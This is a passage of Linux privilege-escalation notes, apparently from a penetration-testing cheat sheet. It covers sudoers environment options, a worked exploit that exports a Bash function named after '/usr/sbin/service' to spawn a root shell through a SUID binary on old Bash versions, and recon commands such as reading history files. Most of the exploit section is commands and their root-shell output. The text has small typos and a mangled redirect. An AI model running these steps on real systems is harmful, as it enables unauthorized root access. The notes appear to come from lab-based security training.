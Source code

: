 In the **/etc/sudoers** config file, if the **env_reset option** is set, sudo will run programs in a new, minimal environment.

The `env_keep option` can be used to keep certain environment variables from the user’s environment.

The configured options are displayed when running sudo -l

**Check if** `LD_PRELOAD` **or** `LD_LIBRARY_PATH` **is configured or not.**

### SHELL VERSION
If /bin/sh is under 4.2-048, it is possible to defiune user functions with an absolute path name.

These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

	/bin/sh --version
	bash --version

- Then we need to find a program that execute the shell with root privilege and try to exploit.

- Example of exploit (suid have to be set on the bin)

		ltrace /usr/local/bin/suid-env2 2&1 | grep service
		system("/usr/sbin/service apache2 start"

	This reveals that the system function is being used to execute the /usr/sbin/service program.

- Verify the version of Bash is lower than 4.2-048:

		bash --version
		GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

- Create a Bash function with the name “/usr/sbin/service” and export the function:

		function /usr/sbin/service { /bin/bash -p; }
		export –f /usr/sbin/service

- Execute the SUID file for a root shell:

		/usr/local/bin/suid-env2
		root@debian:~# id
		uid=0(root) gid=0(root) groups=0(root) ...

### Show installed packages

	dpkg -l

### Show processes

	ps -ef
	ps -aux

### Check history files

	cat ~/.bash_history
	cat ~/.*history | less

### Inspect socket connection
